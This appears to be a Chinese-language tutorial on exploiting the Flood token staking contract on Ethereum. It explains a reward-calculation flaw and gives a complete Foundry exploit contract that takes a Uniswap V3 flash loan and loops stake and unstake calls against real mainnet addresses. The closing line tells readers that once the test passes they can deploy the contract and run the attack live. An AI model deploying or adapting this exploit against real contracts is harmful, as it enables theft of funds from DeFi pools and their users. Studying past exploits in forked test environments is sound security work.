



# 0 背景

flood代币是以太坊链上一款主打质押分红的代币，通过质押合约对代币进行质押，进而分红。由于其质押合约存在逻辑缺陷，遭遇盗窃。

>flood合约地址：https://etherscan.io/address/0xf59257E961883636290411c11ec5Ae622d19455e#code\
>flood借贷合约地址：https://etherscan.io/address/0x759c6De5bcA9ADE8A1a2719a31553c4B7DE02539#code

# 1 缺陷分析
检查flood质押合约，发现其在stake函数调用的时候直接计算了分红数量

在unstake解除质押时为限制执行区块

因此可以考虑通过闪电贷抽干flood的流动性，然后在单个区块内循环质押、解除质押，获取超额的flood代币，然后砸盘掏空池子。

# 2 实现逻辑

# 3 代码测试
拉取defihacklab代码（记得给终端挂代理）
git clone https://github.com/SunWeb3Sec/DeFiHackLabs.git
在./src/test/目录下创建一个FloodTest.sol合约，用于攻击测试
```javascript

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

/* @KeyInfo -- Total Lost : 40 eth
    Attacker Transaction : https://explorer.phalcon.xyz/tx/eth/0x1274b32d4dfacd2703ad032e8bd669a83f012dde9d27ed92e4e7da0387adafe4
    Test: forge test --mc FloodStakingExploit -vv
    */

//质押合约接口声明
interface IFloodStaking {
    function unstake(
        address _to,
        uint256 _amount,
        bool _trigger,
        bool _rebasing
    ) external;
    function stake(
        address _to,
        uint256 _amount,
        bool _rebasing,
        bool _claim
    ) external returns (uint256);
}

// uniswap接口声明
interface IUniswapv3 {
    function flash(
        address recipient,
        uint256 amount0,
        uint256 amount1,
        bytes calldata data
    ) external;

    function swap(
        address recipient,
        bool zeroForOne,
        int256 amountSpecified,
        uint160 sqrtPriceLimitX96,
        bytes calldata data
    ) external returns (int256 amount0, int256 amount1);
}

//攻击合约
contract DoHack{
    IERC20 flood = IERC20(0xf59257E961883636290411c11ec5Ae622d19455e);
    IERC20 gFlood = IERC20(0xb1Cc59Fc717b8D4783D41F952725177298B5619d);
    IERC20 WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    IFloodStaking staking = IFloodStaking(0x759c6De5bcA9ADE8A1a2719a31553c4B7DE02539);
    IUniswapv3 floodUniPool = IUniswapv3(0xB386c1d831eED803F5e8F274A59C91c4C22EEAc0);

    function doFlash() public {
        //闪电贷贷款flood
        flood.approve(address(staking), type(uint256).max);
        IUniswapv3(0xB386c1d831eED803F5e8F274A59C91c4C22EEAc0).flash(address(this), 0, 152089813098498, '');
      
        console2.log("sell flood, balance", flood.balanceOf(address(this)));
        //IUniswapv3(0xB386c1d831eED803F5e8F274A59C91c4C22EEAc0).swap(attacker, false,int256( 2000), 1461446485210103287273052203988822378723970341, '');
    }

    function uniswapV3FlashCallback(uint256 t0 , uint256 t1, bytes calldata) external {
        while(true) {//循环质押&解除质押
            uint256 base = flood.balanceOf(address(this));
            //质押flood
            staking.stake(address(this), base, false, true);
            //解除质押
            staking.unstake(address(this), gFlood.balanceOf(address(this)), true, false);
            if( base >= 168129055504376) {
                break;
            }
        }

        flood.transfer(msg.sender, 153610711229483);//把白嫖到的flood转走卖钱
        console2.log("flood balance after ", flood.balanceOf(address(this)));
        console2.log("gflood balance after", gFlood.balanceOf(address(this)));

    }

}


//测试合约
contract FloodStakingExploit is Test {
    function setUp() public {
        vm.createSelectFork("https://eth.llamarpc.com", 18068772);//在区块18068772进行本地分叉模拟
    }

    function test_Flash() public {
        DoHack doHack = new DoHack();
        doHack.doFlash();
    }
}
```
执行测试命令
```shell
DeFiHackLabs % forge test --contracts ./src/test/FloodTest.sol -vvv
```
如果测试没问题，就可以把合约部署到线上，然后调用合约进行攻击